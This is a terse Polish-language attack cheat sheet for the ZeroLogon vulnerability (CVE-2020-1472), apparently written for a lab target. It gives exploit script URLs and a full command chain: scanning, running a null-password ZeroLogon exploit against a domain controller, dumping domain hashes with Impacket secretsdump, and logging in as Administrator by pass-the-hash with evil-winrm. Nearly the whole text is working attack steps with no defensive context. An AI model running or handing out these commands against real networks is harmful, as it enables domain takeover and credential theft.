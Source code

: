 # Narzedzia
## Impacket zero logon
            ▪ https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py
            ▪ https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py
## Impacket secretdump
            ▪ https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py

# Atak
## Skanowanie
            ▪ nmap -sC -sV -A <ip>
## Srodowisko (nie koniecznie)
            ▪ python3 -m pip install virtualenv
            ▪ python3 -m virtualenv impacketEnv
            ▪ source impacketEnv/bin/activate
            ▪ pip install git+https://github.com/SecureAuthCorp/impacket
## Zero logon
            ▪ python3 zeroLogon-NullPass.py DC01 10.10.54.167
            ▪ impacket-secretsdump -just-dc -no-pass DC01\$@10.10.54.167
## Zalogowanie sie przy uzyciu hasha
            ▪  evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i 10.10.154.52
    
    
    
    
    
    
